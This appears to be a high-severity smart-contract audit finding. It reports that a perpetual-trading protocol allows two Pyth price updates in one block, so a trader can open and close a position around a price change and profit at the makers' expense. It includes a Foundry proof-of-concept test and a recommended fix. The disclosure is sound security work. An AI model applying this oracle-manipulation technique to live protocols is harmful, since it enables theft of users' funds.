Generous Smoke Donkey

high

# Update price 2 times in the same block

## Summary

Pyth allows for unlimited updates/reads of the price within a single block, as long as the publish date of each subsequent price is newer than the previous one. The protocol uses a maxAge of 60 seconds. A user can update the price, open a position, update the price again, and make a profit within a single block without any risk. The profit will be at the expense of the user on the other side of the trade.

## Vulnerability Detail

There is no information available about a bot that continuously updates the price, nor about keepers who have an interest in updating the price. From the README file, it is only known that when a transaction is initiated from the frontend, the price is updated. Therefore, the attack is entirely possible and highly likely given the scenario described above. I want to note that it can be executed even in the presence of a bot, but in a slightly different variant. I won't describe it now because there is no data for such a scenario. Also if the attacker doesn't have any other positions they want pay funding or borrowing fee because the time since last update would be 0.

<details>
<summary>POC</summary>

```solidity
function testOpenCloseSameBlock() public {
        vm.prank(taker1);
        clearingHouse.openPosition(
            IClearingHouse.OpenPositionParams({
                marketId: marketId,
                maker: address(maker),
                isBaseToQuote: false,
                isExactInput: false,
                amount: 10 ether,
                oppositeAmountBound: 1000 ether,
                deadline: block.timestamp,
                makerData: ""
            })
        );
        
        maker.setBaseToQuotePrice(110e18);
        maker2.setBaseToQuotePrice(110e18);
        _mockPythPrice(110, 0);

        vm.prank(taker1);
        clearingHouse.closePosition(
            IClearingHouse.ClosePositionParams({
                marketId: marketId,
                maker: address(maker),
                oppositeAmountBound: 1000 ether,
                deadline: block.timestamp,
                makerData: ""
            })
        );

        console.log("Margin of taker1:");
        console.logInt(vault.getMargin(marketId, address(taker1)));

        console.log("Pending margin:");
        console.logInt(vault.getPendingMargin(marketId, taker1));

    }
```

</details>

## Impact

Loss of funds for makers, 100% profit for attacker.

## Code Snippet

https://github.com/sherlock-audit/2024-02-perpetual/blob/02f17e70a23da5d71364268ccf7ed9ee7cedf428/perp-contract-v3/src/oracle/pythOracleAdapter/PythOracleAdapter.sol#L22

## Tool used

Manual Review

## Recommendation

Update the source code to use always same price in a single block.
